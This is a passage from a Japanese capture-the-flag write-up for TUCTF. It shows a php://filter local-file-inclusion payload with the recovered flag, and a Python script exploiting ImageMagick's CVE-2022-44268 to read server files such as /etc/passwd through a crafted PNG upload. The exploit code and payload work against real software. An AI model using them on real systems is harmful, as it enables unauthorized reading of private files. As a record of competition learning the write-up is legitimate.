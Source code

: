 同様に、`link=php://filter/convert.base64-encode/resource=gcfYAvzsbyxV.txt`でフラグが書かれたファイルを取得できました。

- Flag

```text
TUCTF{th1s_i5_my_secr3t_l0c@l_f1le!}
```

### PNG and Jelly Sandwich

解けなかった問題です。

PNG画像のサイズを変換する機能があります。  
サービス名が`Magic Image Resizer`となっており、明らかにImageMagickの脆弱性を狙っていると思われます。

チームメンバーから、`CVE-2022-44268`でサーバ内の任意のファイルが読み込めるとのことで、実際に`/etc/passwd`の情報を取得できました。

- 調査用の雑コード。`send.py`
  - コマンド： `./send.py /etc/passwd`
  - 参考：<https://github.com/entr0pie/CVE-2022-44268>

```py
#!/bin/python3
import sys
import os
import requests
import re
import random
from png import Reader, write_chunks

if __name__ == "__main__":
  if len(sys.argv) != 2:
      print(f"Usage: {sys.argv[0]} <file>")
      exit(1)
  
  LFI = sys.argv[1]
  reader = Reader(filename='source.png')
  chunks = list(reader.chunks())
  chunk_field = (b"tEXt", f"Profile\x00{LFI}".encode())
  chunks.insert(1, chunk_field)
  file = open('output.png', 'wb')
  write_chunks(file, chunks)
  file.close()

  url = 'https://magic-image.tuctf.com/'
  file = {'file': open('output.png', 'rb')}
  res = requests.post(url, files=file)

  print(f'status: {res.status_code}')

  regex = re.compile(r'<img id = "outputPhoto" src="(.*?)" alt="Modified Image">')
  r = regex.findall(res.text)

  if len(r) != 1 :
     print('failed')
     exit(1)

  print(f'file: {r[0]}')

  filename = f'{random.randrange(100000, 999999)}.png'
  os.system(f'wget {url}{r[0][1:]} -O {filename}')
  os.system(f'identify -verbose {filename}')
```
